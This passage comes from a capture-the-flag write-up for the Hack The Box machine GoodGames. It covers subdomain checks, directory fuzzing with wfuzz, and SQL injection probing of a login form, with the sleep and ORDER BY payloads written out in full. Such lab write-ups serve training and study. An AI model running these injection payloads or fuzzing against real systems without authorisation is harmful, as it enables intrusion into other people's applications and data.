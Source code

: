 <br/><br/>

I add the subdomain I found and check that it is resolving well, then I use `whatweb` to see if it shows me any additional information, but nothing worth investigating further. If I try to sign-in as the user I registered in the first instance it doesn't let me, I can't find anything in the source code either, like hardcoded credentials.

```bash
nvim /etc/hosts
ping -c 1 http://internal-administration.goodgames.htb/
whatweb http://internal-administration.goodgames.htb/
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I'm going to use `wfuzz` to search directories in the new subdomain, to see if I can find an administrative panel, but I can't find anything, maybe with another bigger dictionary, but for now no. I remember I have the **[SQLi](https://portswigger.net/web-security/sql-injection){:target="_blank"}** attack vector available, so I'm going to use BurpSuite's **Repeater** tool to enumerate the databases. I try with basic injections but I have no luck, not only I look if something is shown in the response but also in its ***length***, any anomaly can help me. But I get the result after a while with an injection that performs a query using **ORDER BY**.

```bash
wfuzz -c --hc=404 --hh=6672 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://internal-administration.goodgames.htb/FUZZ
```

```sql
email=oldboy%40oldb.htb'&password=oldboy123
email=oldboy%40oldb.htb'+and+sleep+5--+-&password=oldboy123
email=oldboy%40oldb.htb'+order+by+50--+-&password=oldboy123         # Content-Length: 33490
email=oldboy%40oldb.htb'+order+by+4--+-&password=oldboy123          # Content-Length: 9267          :):)
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
